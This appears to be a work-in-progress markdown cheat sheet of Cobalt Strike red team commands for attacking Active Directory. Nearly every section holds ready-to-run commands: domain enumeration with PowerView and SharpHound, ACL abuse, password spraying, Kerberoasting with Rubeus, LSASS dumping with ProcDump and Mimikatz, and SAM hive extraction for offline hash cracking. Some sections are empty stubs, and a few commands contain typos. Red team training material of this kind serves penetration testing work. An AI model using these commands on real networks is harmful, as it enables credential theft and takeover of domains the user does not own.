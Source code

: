 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

-------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
powershell 
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
# powershell-import --> RACE.ps1
# powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com
# powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com
```
-------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
Get a domain user list
# powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

Password spray from a username and password list
# powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

Auto spray a specific password on an auto-generated user list (noisy)
# powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

-------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI and SharpChrome

---
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
# upload --> ProcDump.exe
# shell ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
```
# powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extracting hashes offline from LSASS using Mimikatz
```
# mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "sekurlsa::wdigest" exit
```
### SAM dump
```
# reg.exe save HKLM\sam sam.save
# reg.exe save HKLM\security security.save
# reg.exe save HKLM\system system.save

Download files to dump SAM hahses offline using [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
# python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
### NTDS.dit dump
Secretsdump.py to dump NTDS.dit hashes remotely

NTDSutil to dump NTDS.dit locally on a Domain Controller

---
# References
[Cobalt Strike commands cheat-sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)

[Sharphound](https://github.com/BloodHoundAD/SharpHound3)

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)
